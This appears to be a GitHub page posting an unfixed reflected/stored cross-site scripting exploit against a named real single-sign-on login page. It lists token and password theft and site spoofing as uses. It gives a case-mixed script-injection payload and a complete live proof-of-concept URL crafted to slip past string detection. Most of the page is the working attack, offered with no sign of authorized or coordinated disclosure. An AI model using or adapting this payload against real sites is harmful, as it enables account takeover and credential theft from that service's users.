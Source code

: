 EXPLOIT FOUND BY NTXING CODED BY NTXING EXPLOITED BY NTXING


## Status: Not Fixed😡

### website: https://ssologin.nbcuni.com/login/login.jsp
#### Vulnibity: URL-Based Stored Cross-Site Scripting

**What can this exploit do?0**

- lets attackers steal access tokens
- inject JS in to page
- steal passwords when entered
- spoof website

**Where?**
In support URL. Attacker will send victim the payload url

**xss injection**
```html
ScripT><ScRIpT>PAYLOAD</scRIpT>&TYPE=33554433 -d alert(0)=
```
this will be url encoded

**Proof of work**
```html
https://ssologin.nbcuni.com/login/login.jsp?GUID=&METHOD=GET&REALMOID=06-0009e2d8-db31-1580-b135-b18a0303f045&SMAGENTNAME=-SM-ytANZow+tuVB5Fe2fulv1ewOCwpmtxxLxQxNRRMbJdz7F1bbJrGLHTuQn5LLn0MiDgsP6M53Q2xh7X7GV8HfIIxIIy8nHAOp&SMAUTHREASON=0&TARGET=-SM-https://myschedule.nbcuni.com/SchedulerPortal.aspx%3C/ScripT%3E%3CScRIpT%3Evar%20x=String(/HELLO%20THIS%20IS%20AN%20XSS%20VUN/);x=x.substring(1,x.length-1),alert(x);%20%3C/scRIpT%3E&TYPE=33554433%20-d%20alert(0)=

```
the following shows how to avoid sting detection in url and excute alert script


